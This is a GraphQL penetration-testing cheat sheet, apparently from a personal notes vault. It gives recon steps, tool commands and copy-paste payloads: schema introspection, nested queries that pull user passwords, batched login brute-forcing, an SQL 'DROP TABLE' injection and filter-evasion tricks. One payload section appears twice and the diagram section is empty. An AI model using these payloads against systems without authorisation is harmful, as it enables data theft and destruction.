

## tags: [pentest, graphql, strategy]  
aliases: ["GraphQL Black‑Box Arsenal"]

# GraphQL Attack Strategy Guide (Black‑Box)

> [!info]  
> **Objective:** Ready‑to‑go arsenal for open‑book GraphQL penetration testing. Focus on reconnaissance, exploitation, and tool usage.

---

## 1. Indicators & Signals

> [!tip]  
> Recognize GraphQL by its behavior and responses.

- **Endpoint footprint:** `/graphql`, `/graphiql`, `/playground`, `/api/graphql`
    
- **Request pattern:** JSON body with `query` (and optional `variables`) fields
    
- **Errors & hints:** Responses containing `Cannot query field`, `Validation error`, or suggestions `Did you mean` → leverage for type/field discovery
    
- **Introspection support:** Queries using `__schema` or `__type` succeed
    
- **Polling activity:** Frontend polls GraphQL endpoint frequently (chat, notifications)
    

---

## 2. Recon & Enumeration Checklist

| Step                                               | Description                      | Example Payload                                      |
| -------------------------------------------------- | -------------------------------- | ---------------------------------------------------- |
| **Endpoint Fuzzing**                               | Test common GraphQL paths        | `GET /graphql`, `GET /v1/graphql`, `GET /playground` |
| **Introspection Test**                             | Discover schema programmatically | ```graphql                                           |
| { __schema { queryType { name } types { name } } } |                                  |                                                      |

| Technique              | Purpose                                                              | Example Payload                                                                                   |
|------------------------|----------------------------------------------------------------------|----------------------------------------------------------------------------------------------------|
| **Type‑Specific Query** | Fallback if `__schema` is blocked                                    | <pre><code>{ __type(name: "User") { fields { name type { name } } } }</code></pre>               |
| **Field‑Suggestion**   | Leverage `Did you mean` hints to enumerate fields                     | Submit `{ user }` → parse suggestion for `users`                                                  |
| **Nested Query Test**  | Confirm depth limits and DoS potential                                | <pre><code>{ posts { comments { author { email password } } } }</code></pre>                      |
| **Auth/ACL Probes**    | Test IDOR/BOLA via variable injection                                 | <pre><code>query getUser($id: ID!) { user(id: $id) { id name email } }</code></pre>               |
| **Batching Attack**    | Combine multiple operations to bypass rate limits                     | JSON array of queries/mutations                                                                   |
| **Injection Points**   | Insert SQLi/XSS in variables or arguments                             | <pre><code>mutation { createPost(title: "a'; DROP TABLE users; --") }</code></pre>                |

---

## 3. Copy‑Paste Templates & Payloads

> [!info]
> Ready‑to‑use GraphQL query/mutation snippets. Replace placeholders.

### Introspection (Default)
```graphql
# Full schema dump
{
  __schema {
    types { name description }
    queryType { name }
    mutationType { name }
  }
}
````

### Type Enumeration (Fallback)

```graphql
# Fields of a specific type
{
  __type(name: "User") {
    name
    fields { name type { name } }
  }
}
```

### Nested Data Exfiltration

```graphql
{
  posts {
    title
    author {
      id
      email
      password
    }
  }
}
```

### Authentication Bypass (Batching)

```json
[
  {"query":"mutation{login(email:\"a@x.com\",password:\"wrong1\"){token}}"},
  {"query":"mutation{login(email:\"b@x.com\",password:\"wrong2\"){token}}"}
]
```

### IDOR Probe

```graphql
query getOrder($orderId: ID!) {
  order(id: $orderId) { id total ownerId }
}
```

---

## 4. Tools & Extensions & Payloads

> [!info]  
> Ready‑to‑use GraphQL query/mutation snippets. Replace placeholders.

### Introspection (Default)

```graphql
# Full schema dump
{
  __schema {
    types { name description }
    queryType { name }
    mutationType { name }
  }
}
```

### Type Enumeration (Fallback)

```graphql
# Fields of a specific type
{
  __type(name: "User") {
    name
    fields { name type { name } }
  }
}
```

### Nested Data Exfiltration

```graphql
{
  posts {
    title
    author {
      id
      email
      password
    }
  }
}
```

### Authentication Bypass (Batching)

```json
[
  {"query":"mutation{login(email:\"a@x.com\",password:\"wrong1\"){token}}"},
  {"query":"mutation{login(email:\"b@x.com\",password:\"wrong2\"){token}}"}
]
```

### IDOR Probe

```graphql
query getOrder($orderId: ID!){
  order(id:$orderId){id,total,ownerId}
}
```

---

## 4. Tools & Extensions

> [!tip]  
> Equip yourself with specialized tools for each phase.

| Tool                  | Purpose                                            | Usage Highlight                                                                            |
| --------------------- | -------------------------------------------------- | ------------------------------------------------------------------------------------------ |
| **Burp Suite**        | Proxy, Repeater, Intruder (Pitchfork for batching) | Intercept GraphQL, use GraphQL tab & Engagement utilities                                  |
| **InQL Scanner**      | Automated schema enumeration & query generation    | Analyze endpoint → export queries → replay in Repeater                                     |
| **GraphQL Voyager**   | Visualize schema from introspection JSON           | Paste schema JSON → navigate type relationships [https://graphql-kit.com/graphql-voyager/] |
| **Graphw00f**         | Endpoint detection & engine fingerprinting         | `python main.py --target http://host --detect --fingerprint`                               |
| **Altair / GraphiQL** | Browser IDE for manual queries                     | Interactive query crafting & variables testing                                             |
| **curl / httpie**     | Scripted queries & batch requests                  | `http POST /graphql query="$(< q.graphql)" variables@vars.json`                            |
| **CrackQL**           | Automated brute‑force & token‑testing for GraphQL  | `python crackql.py --url ... --query login.graphql ...`                                    |

---

## 5. Common Pitfalls & Bypass Techniques

> [!warning]  
> Avoid these missteps and apply proven workarounds.

- **Over‑Depth Queries:** May trigger server protections or crash service—use in dev only
    
- **Keyword Filters:** If `__schema` blocked, try splitting (`__sche"+"ma`) or use `__type`
    
- **WAF Evasion:** Employ aliases:
    
    ```graphql
    query { u:name }
    ```
    
- **Form‑Encoding Quirks:** URL‑encode special chars for `application/x-www-form-urlencoded`
    
- **State Leakage:** Clear cookies / auth headers between tests to isolate contexts
    

---

## 6. Attack Flow Diagram

> [!diagram]



---

_Last updated: {{DATE:YYYY-MM-DD}}_